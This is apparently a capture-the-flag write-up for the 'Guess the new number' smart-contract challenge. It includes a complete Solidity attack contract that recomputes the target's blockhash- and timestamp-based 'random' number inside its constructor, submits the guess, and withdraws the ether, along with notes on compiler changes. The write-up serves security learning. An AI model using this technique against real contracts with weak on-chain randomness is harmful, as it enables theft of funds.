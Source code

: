 # Guess the new number

## Objectives

The number is now generated on-demand when a guess is made.

## Solution

We just need to code a contract that generates the number the exact same way prior to guessing it. For some reason that I don't quite understand though, the `guess()` call simply would not go through until I tried to do it through the constructor of the contract. 

I coded the contract as follows:

```cs
// SPDX-License-Identifier: MIT
pragma solidity >=0.7.5 <0.8.0;

contract GuessTheNewNumberAttack {
    constructor(address payable challenge) public payable {
        // low-level call success
        bool success;

        // check that we're forwarding the correct amount of funds
        require(msg.value == 1 ether, 'msg.value should be at least 1 ether');

        // get answer
        uint8 answer = uint8(uint256(keccak256(abi.encodePacked(blockhash(block.number - 1), block.timestamp))));
        
        // make the guess
        (success,) = challenge.call{value:1 ether}(abi.encodeWithSignature("guess(uint8)", answer));
        require(success, "guess failed");

        // send funds back to my account
        (success,) = msg.sender.call{value:address(this).balance}("");
        require(success, 'call failed');
    }
}
```

On deployment, the guess was successful (as it runs in the constructor) and the balance is sent back to my wallet. By simply deploying this contract, the challenge is solved.

This can be solved similarly in the same version of the solidity compiler that the challenge is originally using (0.4.21), but given that I'm using a newer version, there's some small nuances due to changes in the solidity compiler since then:

- `block.blockhash()` has been replaced by `blockhash()`
- `now` has been deprecated in favor of `block.timestamp`
- Now it's not possible to pass multiple parameters to the `keccak256()` hash function, so we must use `abi.encodePacked()` before passing it to `keccak256()`
- It is not possible to cast directly from a hash to uint8, so we must first pass through a type that has the same size in bytes as the value returned by the hash function, so we first cast to uint256 and then to uint8.

## Submission transaction

https://ropsten.etherscan.io/tx/0x9127996a2073acf24ecbfbd3b7f2eeba379c91815658b98e641c7035060a1eba
